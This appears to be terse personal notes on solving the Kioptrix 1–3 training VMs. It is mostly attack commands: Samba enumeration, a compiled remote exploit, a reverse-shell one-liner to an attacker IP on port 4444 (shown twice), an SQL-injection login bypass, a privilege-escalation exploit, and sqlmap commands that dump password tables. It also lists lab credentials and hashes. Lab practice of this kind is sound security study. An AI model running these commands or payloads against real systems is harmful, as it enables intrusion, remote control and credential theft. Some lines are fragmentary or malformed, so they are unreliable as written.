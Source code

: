 #### --Level 1-- 
enum4linux      192.168.139.128

***searchsploit Samba 2.2

gcc /usr/share/exploitdb/exploits/multiple/remote/10.c -o exploitsamba

./exploitsamba -b 0 192.168.139.128

bash -i >& /dev/tcp/192.168.139.129/4444 0>&1

#### --Level 2--

SQL injection: admin'or '1'-'1

Welcome to the Basic Administrative Web Console

bash -i >& /dev/tcp/192.168.139.129/4444 0>&1

searchsploit Linux 2.6 Privilege Escalation CentOS

cp /usr/share/exploitdb/exploits/linux/local/9545.c 

localhost", "john", "hiroshima") or die(mysql_error());

mysql -u john -p
Enter password: hiroshima
show databases;

#### --Level 3--

nikto -host 192.168.139.131

LotusCMS-Exploit

	$GLOBALS["gallarific_mysql_username"] = "root";
	$GLOBALS["gallarific_mysql_password"] = "fuckeyou";

	dreg 		0d3eccfb887aabd50f243b3f155c0f85 Mast3r
	loneferret 	5badcaf789d3d1d09794d8f021f40f0e starwars

root@kali:~# cd /usr/share/wordlists/
root@kali:/usr/share/wordlists# gunzip rockyou.txt.gz 

loneferret@Kioptrix3:~$ export TERM=xterm 
Update: /etc/sudoers 
Then sudo su

Other method:
add hostname, 

http://kioptrix3.com/gallery/

Search db:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs
Check table:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id --tables -D gallery
Dump password:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id -T dev_accounts --dump
